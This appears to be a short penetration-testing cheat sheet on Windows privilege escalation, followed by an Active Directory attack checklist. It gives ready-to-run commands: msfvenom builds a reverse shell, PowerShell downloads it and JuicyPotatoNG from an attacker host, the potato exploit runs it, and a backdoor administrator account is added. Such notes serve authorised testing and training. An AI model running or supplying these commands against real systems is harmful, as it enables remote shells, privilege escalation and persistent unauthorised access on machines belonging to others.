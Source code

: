 ### Add users

if `SeImpersonatePrivilege`:

- Create Shell

```sh
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=443 -f exe -o shell.exe
```

- Exploit

```powershell
iwr -uri http://<ip>/shell.exe -outfile shell.exe
iwr -uri http://<ip>/JuicyPotatoNG.exe -outfile JuicyPotatoNG.exe
./JuicyPotatoNG.exe -t * -p "./shell.exe" 
./god.exe -cmd "net user attacker password123! /add" 
./god.exe -cmd "net localgroup administrators attacker /add"
```

### AD Checklist - Run this if you have valid AD creds

* Any users kerberoastable?
* Any users ASREP-roastable?
* Run bloodhound and visualize the AD. Anything comes to mind?
* GMSAReadPassword?
* LAPS? https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/laps
 